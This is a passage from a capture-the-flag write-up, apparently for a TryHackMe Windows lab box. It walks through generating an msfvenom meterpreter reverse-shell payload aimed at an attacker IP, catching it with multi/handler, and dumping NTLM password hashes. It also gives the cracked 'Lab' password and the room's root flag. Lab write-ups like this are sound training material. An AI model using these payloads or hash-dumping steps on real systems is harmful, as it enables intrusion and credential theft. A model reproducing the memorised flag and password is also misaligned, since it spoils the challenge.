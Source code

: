 ### User Password
- While we have already gotten a root shell on the target, THM wants us to fully pwn the device by finding the `Lab` user password. 
- If we were to do basic system hacking and then move to privilege escalation, we may start by trying to get a reverse shell on the machine by using Metasploit. We could generate a malicious payload using MSFVenom, and then get that onto the target. Since we are already `nt authority/system`, this should be pretty easy. To generate the MSFVenom payload, we can use the following syntax:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker IP] LPORT=8888 -f exe > shell.exe
```

- Upload the shell with the `upload shell.exe` syntax through the meterpreter shell, but make sure you are in the directory in Metasploit where the MSFVenom payload was generated. 
- Open up another Metasploit session and use the following syntax `use exploit/multi/handler` to be able to catch the reverse connection once `shell.exe` is executed on the target. Set the appropriate options and type `run`. 
- Use `execute -f shell.exe` to run the executable, and you should receive a hit on the second Metasploit instance. The output should look something like the following:

```ruby
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.94.60:7777 
[*] Sending stage (176195 bytes) to 10.10.143.248
[*] Meterpreter session 1 opened (10.8.94.60:7777 -> 10.10.143.248:49167) at 2020-09-23 15:13:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter > 
```

- From here, we can use something like Crackstation or John The Ripper to crack the password hash for `Lab` user:
	- Password: googleplus
## Privilege Escalation
- We don't really need to do privilege escalation, since the meterpreter session allows us to access the `Administrator` folder, considering we got onto the machine as `nt authority/system`. This allows us to look at the `root.txt` file found in the `Administrator\Desktop` folder. 
	- root.txt: THM{aea1e3ce6fe7f89e10cea833ae009bee}

## Rabbit Holes
### SMB
- SMB didn't really turn out to give us any relevant information, and seems to have been left on by default when the machine was created. I did light enumeration and even went through the trouble of installing SMBmap on the THM AttackBox to try and get more information. However, this didn't provide worthwhile results. 
